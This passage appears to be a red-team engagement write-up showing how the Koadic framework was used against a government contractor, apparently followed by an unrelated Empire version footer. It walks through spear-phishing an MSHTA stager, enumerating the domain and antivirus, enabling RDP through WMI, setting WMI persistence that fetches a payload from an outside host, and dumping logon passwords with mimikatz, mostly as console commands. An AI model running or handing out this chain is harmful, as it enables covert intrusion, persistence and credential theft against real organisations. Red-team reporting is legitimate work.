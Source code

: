 ### Example: Establishing Stealth Persistence

During a red team engagement for a government contractor, we used Koadic to establish persistent access that evaded traditional endpoint detection:

1. **Initial Access**:
   - Delivered a Koadic MSHTA stager via a spear-phishing email
   - Target executed the stager, establishing initial communication

2. **Situational Awareness**:
   ```
   [zombie/0]>> use implant/gather/enum_domain_info
   [implant/gather/enum_domain_info]>> run
   
   # Identified domain structure
   
   [zombie/0]>> use implant/gather/enum_av
   [implant/gather/enum_av]>> run
   
   # Determined target had Defender with real-time protection
   ```

3. **Evading Defenses**:
   ```
   # Used COM objects to interact with Windows without triggering AV
   [zombie/0]>> use implant/manage/enable_rdesktop
   [implant/manage/enable_rdesktop]>> run
   
   # Enabled RDP using WMI instead of standard commands
   ```

4. **Establishing Persistence**:
   ```
   # Created WMI event subscription for persistence
   [zombie/0]>> use implant/persist/wmi
   [implant/persist/wmi]>> set PAYLOAD mshta.exe http://cdn-windows.com/mshta
   [implant/persist/wmi]>> set FILTER_EVENT_QUERY "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
   [implant/persist/wmi]>> run
   
   # Established persistence through COM without modifying Registry or dropping files
   ```

5. **Data Exfiltration**:
   ```
   # Used COM objects to extract sensitive files
   [zombie/0]>> use implant/gather/enum_shares
   [implant/gather/enum_shares]>> run
   
   # Located sensitive documents
   
   [zombie/0]>> use implant/inject/mimikatz_dynwrapx
   [implant/inject/mimikatz_dynwrapx]>> set COMMAND sekurlsa::logonpasswords
   [implant/inject/mimikatz_dynwrapx]>> run
   
   # Extracted credentials using COM rather than direct Mimikatz execution
   ```


 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire